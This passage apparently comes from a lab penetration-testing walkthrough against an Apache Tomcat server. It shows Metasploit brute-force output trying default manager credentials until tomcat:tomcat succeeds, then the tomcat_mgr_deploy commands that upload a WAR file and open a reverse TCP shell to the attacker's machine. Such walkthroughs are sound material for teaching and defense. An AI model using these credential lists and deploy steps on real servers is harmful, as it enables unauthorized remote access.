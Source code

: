 ```
[-] 172.16.243.143:8180 - LOGIN FAILED: manager:manager (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: manager:root (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: role1:admin (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: role1:manager (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: role1:root (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: root:admin (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: root:manager (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: root:role1 (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: root:root (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: root:vagrant (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: tomcat:admin (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: tomcat:manager (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: tomcat:root (Incorrect)
[+] 172.16.243.143:8180 - Login Successful: tomcat:tomcat
[-] 172.16.243.143:8180 - LOGIN FAILED: both:admin (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: both:manager (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: both:role1 (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: both:root (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: both:tomcat (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: both:s3cret (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: both:vagrant (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: j2deployer:j2deployer (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: cxsdk:kdsxc (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: root:owaspbwa (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: ADMIN:ADMIN (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: xampp:xampp (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: QCC:QLogic66 (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: admin:vagrant (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Bingo! It turns out that one pair of default credentials, `tomcat` / `tomcat`, were bring using by the management interface for the Tomcat application. This further enabled the use of the `exploit/multi/http/tomcat_mgr_deploy` exploit to gain a shell on the target server:

```
msf auxiliary(scanner/http/tomcat_mgr_login) > use exploit/multi/http/tomcat_mgr_deploy
msf exploit(multi/http/tomcat_mgr_deploy) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(multi/http/tomcat_mgr_deploy) > set HttpPassword tomcat
HttpPassword => tomcat
msf exploit(multi/http/tomcat_mgr_deploy) > set rport 8180
rport => 8180
msf exploit(multi/http/tomcat_mgr_deploy) > run

[*] Started reverse TCP handler on 172.16.243.144:4444
[*] Attempting to automatically select a target...
[*] Automatically selected target "Linux x86"
[*] Uploading 6279 bytes as CmEAflXTKfIlg9DUi4VaKueJd7.war ...
[*] Executing /CmEAflXTKfIlg9DUi4VaKueJd7/aB8I27TFaCcggxL7zt1BqigP.jsp...
[*] Undeploying CmEAflXTKfIlg9DUi4VaKueJd7 ...
```